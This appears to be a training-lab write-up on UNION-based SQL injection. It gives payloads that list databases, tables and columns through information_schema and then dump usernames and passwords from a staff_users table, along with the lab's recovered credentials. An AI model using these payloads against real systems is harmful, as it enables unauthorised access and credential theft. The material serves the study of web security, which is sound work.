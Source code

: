 
As the first level aims to discover Martin's password, the staff_users table is what interests us. We can utilise the information_schema database again to find the structure of this table using the below query.


`0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'`


This is similar to the previous SQL query. However, the information we want to retrieve has changed from table_name to column_name, the table we are querying in the information_schema database has changed from tables to columns, and we're searching for any rows where the table_name column has a value of staff_users.


The query results provide three columns for the staff_users table: id, password, and username. We can use the username and password columns for our following query to retrieve the user's information.


`0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`


Again, we use the group_concat method to return all of the rows into one string and make it easier to read. We've also added `,':',` to split the username and password from each other. Instead of being separated by a comma, we've chosen the HTML <br> tag that forces each result to be on a separate line to make for easier reading.

## SQL injection example
First, lists all databases accessible to the current user.

`0 UNION SELECT null, null, GROUP_CONCAT(schema_name) FROM information_schema.schemata;`

The page returned **information_schema,sqli_one**, let list all tables from sqli_one database

`0 UNION SELECT null, null, GROUP_CONCAT(table_name) FROM information_schema.tables where table_schema = 'sqli_one'`

The page return **article,staff_users**, now we keep finding the columns name with the payload:

`0 UNION SELECT null, null, GROUP_CONCAT(column_name) FROM information_schema.columns where table_schema = 'sqli_one'`

The page return **content,id,subject,id,password,username**, now we could get the username and password 

`0 UNION SELECT null, GROUP_CONCAT(username), GROUP_CONCAT(password) FROM staff_users`

The page return **admin,martin,jim** and **p4ssword,pa$$word,work123**

![alt text](image-20.png)
